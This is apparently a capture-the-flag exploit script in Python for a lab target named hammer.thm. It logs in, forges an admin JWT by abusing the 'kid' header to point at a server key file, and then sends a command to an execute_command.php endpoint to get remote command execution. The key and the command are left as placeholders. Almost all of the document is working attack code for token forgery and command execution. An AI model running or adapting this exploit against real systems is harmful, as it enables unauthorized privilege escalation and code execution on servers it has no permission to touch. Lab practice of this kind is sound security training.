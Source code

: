 ```python
    def login(self):
        self.s.post(f'{self.URL}/index.php',
                    headers={'Content-Type': 'application/x-www-form-urlencoded'},
                    data={'email': self.email,
                          'password': self.password})

    def start(self):
        # login
        self.login()

        key = 'xxx'

        payload = {
            "iss": "http://hammer.thm",
            "aud": "http://hammer.thm",
            "iat": 1748754378,
            "exp": 1749757978,
            "data": {
                "user_id": 1,
                "email": "tester@hammer.thm",
                "role": "admin"
            }
        }
        headers = {
            "typ": "JWT",
            "alg": "HS256",
            "kid": "/var/www/mykey.key"
        }

        token = jwt.encode(payload, key, algorithm='HS256', headers=headers)
        command = 'xxx'  # command to read flag

        print(f'[INFO] token={token}')

        res = self.s.post(f'{self.URL}/execute_command.php',
                          headers={
                              'Content-Type': 'application/json', 'Authorization': f'Bearer {token}'},
                          json={
                              'command': command
        })

        print(f'[INFO] {res.status_code}')
        print(f'[INFO] {res.text}')


IP = input('[!] Enter the target IP address: ')

jwt_exploit = JWT_KID_EXPLOIT(IP)
jwt_exploit.start()
```

